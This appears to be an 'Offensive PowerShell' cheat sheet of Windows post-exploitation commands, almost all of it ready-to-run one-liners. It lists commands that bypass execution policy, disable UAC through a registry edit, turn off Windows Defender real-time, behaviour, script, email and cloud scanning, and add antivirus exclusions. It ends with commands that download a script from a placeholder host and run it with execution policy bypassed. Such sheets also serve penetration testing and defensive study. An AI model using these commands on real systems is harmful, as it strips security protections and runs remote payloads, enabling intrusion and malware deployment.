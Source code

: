 # Offensive PowerShell

\# Cmdlet Help  
`Get-Help <CMDLET>`  
\# List all running processes  
`Get-Process`  
\# Execution Policy Information  
`Get-ExecutionPolicy -List`  
\# Allow unsigned scripts execution for the current user  
`Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser`  
`powershell -ep bypass`  
\# Get UAC Configuration  
`Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\System" | Select-Object -Property EnableLUA,ConsentPromptBehaviorAdmin`  
(EnableLUA = UAC [0 = False, 1 = True], ConsentPromptBehaviorAdmin = Prompt Behavior [0-5])  
\# Disable UAC (requires admin)  
`cmd.exe /c "C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f"`  
\# Get Current Computer Information  
`Get-ComputerInfo -Property CsName,WindowsVersion,WindowsBuildLabEx,WindowsEditionId,OsArchitecture,CsProcessors,CsTotalPhysicalMemory`  
\# Get Network Interfaces Information  
`Get-NetAdapter`  
`Get-NetIPAddress`  
`Get-NetIPConfiguration`  
\# Get Local Users Information  
`Get-LocalUser | Select-Object Name,SID,Enabled,LastLogon,Created,Modified`  
\# Get Local Groups Information  
`Get-LocalGroup`  
`Get-LocalGroupMember -Group <GROUP NAME>`  
\# Get Firewall Information  
` Get-NetFirewallProfile`  
\# Get Windows Defender Status  
`Get-MpComputerStatus | Select AntivirusEnabled,RealTimeProtectionEnabled,IoavProtectionEnabled,AntispywareEnabled,IsTamperProtected`  
`Get-MpPreference` (some items require admin access to display information)  
\# List other AV Products  
`Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct`  
`'0x{0:x}' -f <ProductState>`  (10 from the 4th number position = on)  
\# Disables realtime monitoring (requires admin)    
`Set-MpPreference -DisableRealtimeMonitoring $true`  
\# Disables scanning for downloaded files or attachments (requires admin)    
`Set-MpPreference -DisableIOAVProtection $true`  
\# Disable behaviour monitoring (requires admin)    
`Set-MPPreference -DisableBehaviourMonitoring $true`  
\# Make exclusion for a certain folder (requires admin)    
`Add-MpPreference -ExclusionPath "C:\Windows\Temp"`  
\# Disables cloud detection (requires admin)    
`Set-MPPreference -DisableBlockAtFirstSeen $true`  
\# Disables scanning of .pst and other email formats (requires admin)    
`Set-MPPreference -DisableEmailScanning $true`  
\# Disables script scanning during malware scans (requires admin)    
`Set-MPPReference -DisableScriptScanning $true`  
\# Exclude files by extension (requires admin)  
`Set-MpPreference -ExclusionExtension "ps1"`  
\# Code Injection - Invoke-Expression  
`$<STRING> = 'Write-Output "Test text!"'`  
`Invoke-Expression $<STRING>`  
\# Remote Code Execution - Invoke-Command  
`$computer = "<COMPUTER>"`  
`$creds = Get-Credential`  
`$script = { Write-Output "Test text!" }`  
`Invoke-Command -ComputerName $computer -Credential $creds -ScriptBlock $script`  
#\ Remote Code Execution - Invoke-RestMethod (Download and run remote scripts)  
`$url = "https://site.com/script.ps1"`  
`$script = Invoke-RestMethod -Uri $url`  
`Invoke-Expression $script`  
\# Remote Code Execution - Start-Process (open a new PS instance and run a downloaded script - useful to bypass execution policies)  
`$url = "https://site.com/script.ps1"`  
`Invoke-WebRequest -Uri $url -OutFile "script.ps1"`  
`Start-Process powershell.exe -ArgumentList "-ExecutionPolicy Bypass -File script.ps1"`  
